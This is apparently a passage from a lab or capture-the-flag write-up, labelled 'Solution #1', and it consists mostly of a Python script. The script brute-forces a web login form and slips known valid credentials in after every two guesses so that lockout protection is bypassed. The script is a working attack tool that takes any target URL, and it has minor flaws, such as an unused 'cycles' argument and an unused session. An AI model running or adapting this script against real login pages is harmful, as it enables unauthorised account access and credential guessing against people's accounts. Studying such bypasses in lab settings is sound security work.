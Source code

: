 ## Solution #1 - Brute-force using python requests
In python this is relatively easily scriptable by using 2 for loop cycles.

```py
import requests
import sys

requests.urllib3.disable_warnings()

def bruteforce(target, cycles, password_list, username, working_credz):
    for password in password_list:
        if ":" in password:
            credentials_split = password.split(":")
            password = credentials_split[1]
            username = credentials_split[0]
        else:
            username=username
            password=password
        session = requests.Session()
        session.verify = False
        headers = {"Content-Type": "application/x-www-form-urlencoded"}
        data = {"username":username, "password":password} 
        s = requests.post(target, data=data, headers=headers)
        if username not in working_credz:
            print("(+) tried %s:%s; Content-Length: %s" %(username,password,s.headers['Content-length']))
            #print(s.headers)
            #print(r.text)
    return 0

def main():
    if len(sys.argv) != 6:
        print("(!) usage: %s <target> <wordlist> <cycles> <working_credentials> <username>" % sys.argv[0])
        print("(!) eg: %s https://target.tld/login ./passwords 2 'user:pass' username" % sys.argv[0])
        sys.exit(-1)
    
    target = str(sys.argv[1])
    wordlist = str(sys.argv[2])
    cycles = int(sys.argv[3])
    working_credz = str(sys.argv[4])
    username = str(sys.argv[5])
    
    print("(+) Target: %s; Wordlist: %s; Cycles before using working credentials: %s; Working Credentials: '%s'; Bruteforcing user: %s" % (target,wordlist,cycles,working_credz,username))

    with open(wordlist) as f:
        passwords = [line.rstrip() for line in f]
        # List needs to be initialy set and should be reset every 3rd turn, but this will be done in for loop
        password_list=[]
        for password in passwords:
            password_list.append(password)
            if len(password_list) == 2:
                password_list.append(working_credz)
                #print("(+) Batch: %s" %(password_list))
                bruteforce_session = bruteforce(target, cycles, password_list, username, working_credz)
                password_list=[]
            else:
                continue
        print("\n(+) All passwords have been checked!")
```